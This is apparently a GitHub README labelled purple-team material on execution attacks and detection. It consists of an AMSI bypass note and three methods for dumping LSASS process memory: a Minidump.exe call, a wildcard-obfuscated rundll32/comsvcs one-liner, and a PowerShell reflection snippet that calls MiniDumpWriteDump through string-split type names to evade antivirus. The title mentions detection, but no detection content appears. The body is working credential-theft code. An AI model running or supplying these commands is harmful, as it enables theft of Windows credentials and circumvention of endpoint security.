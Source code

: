 # PurpleTeam
Execution Attacks and detection

Bypass AMSI
-
Run file in powershell and then execute below command :
'AmsiUtils'

Lsass Dump via mini dump needs to run as admin access

Method 1 to Lsass Dump:
-
Minidump.exe <lsass PID>


Method 2 to lsass Dump:
-
&$env:???t??r???\*2\r[t-u]???[k-l]?2* $(gi $env:???t??r???\*2\c?m?[v-w]*l | % {$_.FullName }), `#-999999999999999999999999999999999999999999999999999999999999999999999999999999999976-decoy $(gps l?a*s).id c:\parastoo.tmp full; Wait-Process -Id (Get-Process rundll32).id ; (Get-Item -Path c:\dmp.tmp).Encrypt();


Method 3 to Lsass Dump:
-
1-Crete temp folder in drive C:

2-Execute below commands in powershell

$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$PDP = Join-Path $S $PF

$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()



https://github.com/ParastouRazi/PurpleTeam/assets/85788536/f031c264-c4f9-4fcb-8bee-17badf0866b0



See below link to view execution 

https://www.youtube.com/watch?v=Nfh9EEJ8wcw
-




